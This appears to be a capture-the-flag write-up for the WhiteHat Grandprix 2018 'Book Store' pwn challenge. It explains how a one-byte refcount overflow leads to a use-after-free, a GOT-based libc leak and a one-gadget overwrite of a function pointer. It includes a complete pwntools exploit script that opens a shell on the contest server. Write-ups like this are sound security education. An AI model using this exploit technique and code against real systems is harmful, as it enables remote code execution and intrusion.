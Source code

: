 # Writeup for pwn 02 - Book Store - WhiteHat Grandprix 2018 Qualifiers

## The Challenge

We are given a "book store" service, which allows us to add, edit, remove and print out books.

The book structure is as follows:

```C
typedef struct book{
    book* nextBook;
    void* pBrief;
    char title[0x20];
    char book_idx;
    char refcount;
    void* print_func;
} book;
```
The `pBrief` member is a pointer to a `malloc()`d memory region (size is dependant on the user).

When adding a book, we also have the option to make a reference from that book to other books, and the book that **receives** the reference gets it's `refcount` field incremented.
This can be seen in the following code-snippet inside the `add_book()` function:

```C
unsigned __int64 add_book()
{
   ...
   ...
    if ( reference_book_title )
    {
      current_book = list_of_books;
      running_idx = 0;
      while ( current_book )
      {
        v0 = (signed __int64)current_book->title;
        if ( !strncmp(&reference_book_title, current_book->title, 0x20uLL) )
        {
          new_book->book_idx = running_idx;
          ++current_book->refcount;
          break;
        }
        ++running_idx;
        current_book = (struct book *)current_book->next_book;
      }
    }
    ...
    ...
 }
 ```

Also, when adding a book, we have the option to make it a best-selling book. There is a global `best_book` variable that is stored in the data segment, and is pointing to the best selling book. 

This global `best_book` also increments the book's `refcount` due to it also pointing to the book.

## The Vulnerability

As seen above, the `refcount` member is **only a BYTE in size**, also, there are no checks whatsoever whether it overflows.

When adding a **best selling** book, the program checks if a best-selling book already exists, and if so, it decrements the original book's `refcount` member, and checks if it's 0, if it is, it calls `free()` to free the `pBrief` memory, and the book struct itself afterwards, this can be seen in the following code snippet (inside the function `best_selling()`):

```C
book *__fastcall best_selling(book *a1)
{
...
  if ( best_book )
  {
    --best_book->refcount;
    best_book->print_func = (__int64)print_normal;
    if ( !best_book->refcount )
    {
      free((void *)best_book->pBrief);
      free(best_book);
    }
  }
 ...
 ...
}
```

If we can get the `refcount` of a best-selling book to overflow to be **1** and then *change a best-selling book*, then that book would get freed (also it's `pBrief` member), but would not be removed from the linked list that exists due to the `book* next_book` member in the `book` struct.

This could theoretically grant us a UAF primitive, which is easily exploitable due to the fact that the size of `pBrief` is controlled by us, so we can make it to be the same size as the `book` struct, and achieve a perfect overlap!

## The Leak

To achieve a reliable exploit, we also need an info-leak. This info-leak is very trivial due to the UAF primitive, and the fact that there is a function that prints the details of the books!

To get an info-leak we just need to get a UAF-ed book `pBrief` to overlap with a newly created `book` struct. If the `pBrief` has the same size as the struct, we can just leak the entire `book` struct! Also, we can modify the `pBrief` of the newly created `book` to make it point to `malloc()`'s GOT entry, and then leak the address of `malloc()` in libc when we print the data of the UAF-ed book!

## The Exploit

After leaking, we can easily modify the `print_func` function pointer using the UAF-ed book's `pBrief`, to make it point to a shell one gadget and then easily pop a shell.

Modifying an in-use book's `print_func` is as easy as changing the `pBrief` of the UAF-ed book to just match what we want :)

After doing so, when we trigger the `print_func` for that same book, it will execute `system("/bin/sh")` :D

Basically - once we have that UAF, leaking and exploiting is as easy as modifying the fields of an in-use `book` struct, using the UAF-ed `pBrief` :)

## Exploit Code

```Python
from pwn import *

r = remote("pwn02.grandprix.whitehatvn.com", 8005)

def rc():
    r.recvuntil("choice:")

rc()

def addBook(title, briefSize, brief,referenceTitle="",bestSelling=False):
    r.sendline("1")
    r.recvuntil("Title:")
    r.sendline(title)
    r.recvuntil("size:")
    r.sendline(str(briefSize))
    r.recvuntil("brief:")
    r.sendline(brief)
    r.recvuntil("title:")
    r.sendline(referenceTitle)
    r.recvuntil("(Y/N)")
    if bestSelling:
        r.sendline("Y")
    else:
        r.sendline("N")
    rc()

def removeBook(title):
    r.sendline("3")
    r.recvuntil("Title:")
    r.sendline(title)
    rc()

addBook("first", 10, "CCCC","CCCC", bestSelling=False)

addBook("AAAA",0x3a,"A"*0x30,"AAAA",bestSelling=True)

for m in range(255):
    addBook("abc"+"A"*m,10,"BBBB","AAAA", bestSelling=False)

addBook("newBook", 10, "newBook", "newBook", bestSelling=True)

removeBook("first")


MALLOCGOT = 0x601fd0
ONE_GADGET = 0x10a38c

addBook("newBook2", 58, "\x00"*8+p64(MALLOCGOT)+"F"*8, "newBook2", bestSelling=False)

r.sendline("4")

r.recvuntil("FFFFFFFF|")

leak = r.recvline()

mallocLeak = int(leak.strip()[::-1][4:][:6].encode('hex'),16)
rc()

log.info("malloc leak @ 0x%x" % mallocLeak)

LibcBase = mallocLeak - 0x97070
log.info("libc base @ 0x%x" % LibcBase)

nextPayload = "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFAA" + p64(LibcBase+ONE_GADGET)

r.sendline("2")

r.recvuntil("title:")
r.sendline("newBook2")

r.recvuntil("title:")
r.sendline("pwn")

r.recvuntil("size:")
r.sendline("58")

r.recvuntil("brief:")

r.sendline(nextPayload)

r.interactive()
```
